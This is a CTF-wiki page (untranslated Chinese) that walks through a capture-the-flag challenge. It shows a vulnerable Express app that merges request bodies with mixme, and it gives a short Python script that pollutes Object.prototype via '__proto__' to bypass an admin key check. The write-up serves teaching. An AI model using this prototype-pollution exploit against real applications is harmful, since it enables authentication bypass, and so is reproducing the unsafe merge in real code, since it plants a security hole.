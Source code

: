 # 实战
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 



```plain
```javascript
const http = require("http");
const express = require("express");
const bodyParser = require("body-parser");
const mixme = require("mixme");
const session = require("express-session");
const randomize = require("randomatic");
const morgan = require("morgan");
const app = express();//类似定义的宏常量
app.set("json escape", true);//转义
app.use(morgan("short"));
app.use(bodyParser.urlencoded({ extended: true })).use(bodyParser.json());
// app.use(express.json());
app.use(
session({
name: "session",
secret: randomize("aA0", 16),
resave: false,
saveUninitialized: false,
})
);
const Super = {
passone: process.env.sperson,//环境变量控制
};
function blacklist(url) {
var evilwords = ["DirectoryIterator", "FilesystemIterator", "GlobIterator"];//这里面都是php的类名
var arrayLen = evilwords.length;
for (var i = 0; i < arrayLen; i++) {
const trigger = url.includes(evilwords[i]);
if (trigger === true) {
return true;
}
}
}
//TODO
//get url content
app.post("/getinfo", (req, res) => {
console.log(req.body);
if (req.body.userid === undefined || req.body.key === undefined) {
res.send("you want to post null?");
} else {
let userid = req.body.userid;
let key = req.body.key;
console.log(userid);
console.log(key);//在控制台上输出信息
if (Super[userid] === key) {
res.send(
"admin!\nyou can goto ***** endpoint to hack!"
);
} else {
res.send("You are not the Super, so I cannot give you the truth.");
}
}
});
app.all("/", (req, res) => {
let data = { userid: [], key: [] };
console.log(data);
console.log(req.body);
if (req.method == "POST" && req.body) {
data = mixme.merge(data, req.body);
req.session.data = data;
// console.log("After MERGE: " + Super["test"]);
}
res.send("to be admin and you will find it!");
});
app.listen(3000, () => console.log(`Example app listening on port 3000!`));
```
Plain Text
```



这就是那天的源码


第66行有个merge合并函数


51行有个比较绕过


我们通过原型链的污染来过


代码逻辑不是很难


所以最终我们只需要传参就ok。后台估计是有东西是一直在删除，所以最好整个脚本。


```plain
import requests
import time
url1='127.0.0.1'
url2='127.0.0.1/getinfo'
post_data1='{"__proto__":{"a":"b"}}'
post_data2='{"userid":"a","key":"b"}'
headers = {
"Content-Type":"application/json"
}
reqs1=requests.post(url1,data=post_data1,headers=headers)
print(reqs1.text)
time.sleep(0.5)
reqs2=requests.post(url2,data=post_data2,headers=headers)
print(reqs2.text)
Plain Text
```



（我没用过但应该就这样吧...）


